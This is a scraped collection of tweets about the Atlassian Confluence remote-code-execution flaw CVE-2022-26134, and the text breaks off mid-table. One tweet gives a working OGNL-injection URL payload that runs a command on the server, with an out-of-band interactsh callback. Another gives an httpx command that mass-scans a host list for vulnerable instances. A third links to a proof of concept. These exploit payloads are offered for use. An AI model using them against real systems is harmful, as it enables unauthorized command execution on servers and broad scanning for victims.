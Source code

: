 
# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1533051998077067267 _at 2022-06-04 11:44:13_**
<blockquote>
Confluence RCE (CVE-2022-26134)
Poc:

{{BaseURL}}/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22nslookup%20{{interactsh-url}}%22%29%7D/
</blockquote>


<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1533025788672593920 _at 2022-06-04 10:00:04_**
<blockquote>
CVE-2022-26134  Confluence RCE exploit automation :

httpx -l list.txt  -paths path.txt  -match-string "gid="
</blockquote>


<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# sheikhrishad0
**https://twitter.com/sheikhrishad0/status/1532966090841915392 _at 2022-06-04 06:02:51_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE PoC

#BugBounty https://t.co/7UFw7TkwME
</blockquote>


<table><tr>